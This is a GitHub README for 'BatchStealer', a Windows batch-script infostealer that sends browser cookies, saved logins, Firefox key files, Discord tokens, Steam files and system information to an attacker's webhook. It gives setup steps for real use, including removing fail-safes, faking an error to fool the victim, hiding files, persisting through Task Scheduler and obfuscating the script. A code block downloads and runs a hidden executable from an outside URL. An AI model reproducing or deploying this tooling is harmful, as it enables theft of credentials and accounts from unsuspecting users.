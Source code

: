 # BatchStealer | [Automatic Builder](https://github.com/Takaovi/BSBuilder) | [BatchStealer Example](https://github.com/Takaovi/BatchStealer-Example)

### 📜 A batch script for taking things and sending them to a webhook 

3.4.2021 < FUD [(Virustotal)](https://www.virustotal.com/gui/file/6dfc563da383268f927fd90834afe1f2b5757933ea7527029c94f5aa6ab08c0d/detection)

![Made with love in Finland](https://madewithlove.now.sh/fi?heart=true&colorB=%23387fdc&template=plastic)

# Screenshots

 <details>
  <summary>Discord Capture Example</summary>
 
  <p align="center">
  <img src="https://i.imgur.com/8tmguuS.jpg">
  </p>
  
  *Example report, not a real user. Firefox has no files as it wasn't installed on the machine.*
</details>

# How to use

### ⚠️ Windows 10 build 17063, or later (*cURL* is included)

1. Change the webhook to yours.
2. Remove the fail-safes. ("goto xxx")
3. Run the batch file.

### ❌ Get rid of the comments 📝
* Do a regex search on notepad++, match `^::.*\n` and replace with nothing.

### ⛔ Avoid
* Just changing the webhook and doing nothing else. 
  * If the batch file does nothing the user will open it to see what's wrong.

# Features

### 💉 Steals

*Almost everything is encrypted, I haven't had the patience to do that on a batch file*

 <details>
  <summary>Full system information</summary>
 
   * OS Name & Version
   * Product ID
   * System Manufacturer
   * Processor(s)
   * BIOS Version
   * Time Zone
   * Total Physical Memory
   * Network Card(s)
   * And more...
</details>
<details>
  <summary>Chrome</summary>
 
  * Cookies
  * History
  * Shortcuts
  * Bookmarks
  * Login Data
</details>
<details>
  <summary>Opera</summary>
 
  * Cookies
  * History
  * Shortcuts
  * Bookmarks
  * Login Data
</details>
<details>
  <summary>Vivaldi</summary>
 
  * Cookies
  * History
  * Shortcuts
  * Bookmarks
  * Login Data
</details>
<details>
  <summary>Firefox</summary>
 
  * Logins
  * key3
  * key4
  * Cookies (Plain text!)
</details>
<details>
  <summary>osu!</summary>
 
 * osu!.cfg
</details>
<details>
  <summary>Discord</summary>
 
  * File containing a Token
  * Other various files
</details>
<details>
  <summary>Steam</summary>
 
  * Logged in users (Username, email)
  * Hidden ssfn files
</details>
<details>
  <summary>Minecraft</summary>
 
* Launcher profiles and accounts
</details>
<details>
  <summary>Growtopia</summary>
 
  * Save.dat
</details>

## Other manually addable features

Fake error message
```batch
set "vpath="

...

if not "%~dp0"=="%vpath%\" (
start /min /b mshta vbscript:Execute("Msgbox(""Bodytext""+vbCrLf+vbCrLf+""Anotherbody""),16,""Titletext"":window.close")
)

...
```

Download & run payload
```batch
set "vpath="
set "webhook="

cd %vpath%
...

:: PAYLOAD - REMOVE GOTO IF YOU WANT THE SCRIPT TO DOWNLOAD AND RUN A FILE SOMEWHERE
:: ----------------------------------------------------------------------------------
goto skipcustomdownload
	curl --silent --output /dev/null -i -H "Accept: application/json" -H "Content-Type:application/json" -X POST --data "{\"content\": \"```Downloading and starting a custom file from\n%customdownloadurl% to %vpath%\%customfilename%```\"}" %webhook%
	set "customdownloadurl=https://external.ext/file.exe"
        set "customfilename=c.exe"
	IF EXIST "%customfilename%" GOTO waitloop4
	curl --silent -L --fail "%customdownloadurl%" -o "%customfilename%"
	>NUL attrib "%vpath%\%customfilename%" +h
	:waitloop4
	IF EXIST "%customfilename%" GOTO waitloopend4
	timeout /t 5 /nobreak > NUL
	:waitloopend4
	2> NUL start "%customfilename%"
:skipcustomdownload

...
```

### 📑 Other features 

  * Delete itself after execution

  * Add itself to Task Scheduler (CMD window will be invisible when executed)
     * Will make files to `C:\ProgramData` by default. (Hidden)

  * Push updates to infected machine(s) **(Beta, expect bugs and crashes)**
    * Make sure to have a working batch file's source on the link, it will replace everything.
    * Ability to target specific users (Check username)
    
  * Take screenshot


#### Included on the [Automatic Builder](https://github.com/Takaovi/BSBuilder)
  * Add garbage code (Confuse/Fill)

  * ~~Obfuscate~~ Not made yet.

## Todo
* DNS poisoning
  * Simple edit of the hosts file (Would require administrator)
* Other interesting stuff...

## 💡 Support

* If you want to support the project do a pull request.
  * The pull request could be a new steal etc.

## ㊙️ Obfuscation (Read carefully)
* You can try [this](https://github.com/SkyEmie/batch-obfuscator)
  * RECURRING DOES NOT WORK WITH THIS. (Script exits when it reaches it)
  * "START AS ADMINISTRATOR" WILL GENERATE A VISIBLE ERROR MESSAGE ON THE CMD BOX.

## Thanks

* [Screenshot-cmd (github)](https://github.com/chuntaro/screenshot-cmd)
# Legal

None of the authors, contributors, or anyone else connected with this open source project, in any way whatsoever, can be responsible for your use of the information or the application contained in or linked from this repository.

Under Section 107 of the Copyright Act 1976, allowance is made for "fair use" for purposes such as criticism, comment, news reporting, teaching, scholarship and research. Fair use is a use permitted by copyright statute that might otherwise be infringing. Non-profit, educational or personal use tips the balance in favor of fair use.

If you don't agree with any of our disclaimers above, do not read the code or download anything from our repository as you have no permission to read and explore our repository until you agree.

## ToS

###### BY REMOVING THE GOTO(s) YOU AGREE TO NOT USE THE SCRIPT FOR MALICIOUS PURPOSES. 
##### THE AUTHOR IS NOT RESPONSIBLE FOR ANY HARM CAUSED BY THE SCRIPT.
